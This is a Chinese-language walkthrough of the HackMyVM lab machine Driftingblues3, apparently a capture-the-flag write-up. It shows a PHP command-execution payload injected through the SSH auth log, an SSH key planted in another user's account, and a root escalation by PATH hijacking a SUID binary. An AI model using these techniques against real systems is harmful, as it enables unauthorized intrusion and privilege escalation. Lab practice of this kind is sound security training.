 # Driftingblues3

2024-11-06 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues3

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

robots.txt 中发现禁止目录：/eventadmins 其内容提示 ssh 有问题，并让查看 /littlequeenofspades.html 页面，查看其源码，发现最后一行有一个隐藏信息：

```
<p style="color:white">aW50cnVkZXI/IEwyRmtiV2x1YzJacGVHbDBMbkJvY0E9PQ==</p>
```

经过 2 次 base64 解码为/adminsfixit.php 发现了这个文件在读取 ssh auth log，那么就可以利用在 ssh 中植入 php rce 代码，来实现代码命令注入的功能。

高本版的 openssh 中已经对用户名的特殊字符进行了限制，必须使用低版本的 openssh 才行。直接使用 msf 中的 scanner/ssh/ssh_login 模块，username 为 <?php system($_GET[1]);?>，同时随便设置 PASSWORD，然后 run，这时在访问 http://192.168.5.40/adminsfixit.php?1=id 发现显示出了 www-data 内容，证明代码注入成功，可以进一步实现反弹 web shell。

进入系统后，发现 /home/robertj/.ssh 目录对 www-data 用户有写权限，直接创建 .authorized_keys 将我们的公钥写入其中:

```
ssh-keygen -t rsa -f ./id_rsa

echo '公钥信息' > /home/robertj/.ssh/authorized_keys
```

使用 ssh -i id_rsa 登陆，得到了 user flag：

```
robertj@driftingblues:~$ cat user.txt
413fc08db21285b1f8abea99040b0280
```

提权至 root，发现 suid 文件 /usr/bin/getinfo , robertj 属于 operators 用户组，可以执行。对 /usr/bin/getinfo 进行逆向分析，发现其中调用了系统命令没有使用绝对路径 system("ip a"); 可以进行利用，在 /tmp 目录下创建 echo '/bin/bash' > ip;chmod +x ip 然后在 /tmp 目录下再次执行 export PATH=/home/robertj:$PATH; /usr/bin/getinfo 就可以获得 root 权限，最终获得了 root flag：

```
root@driftingblues:/root# cat root.txt
dfb7f604a22928afba370d819b35ec83
```
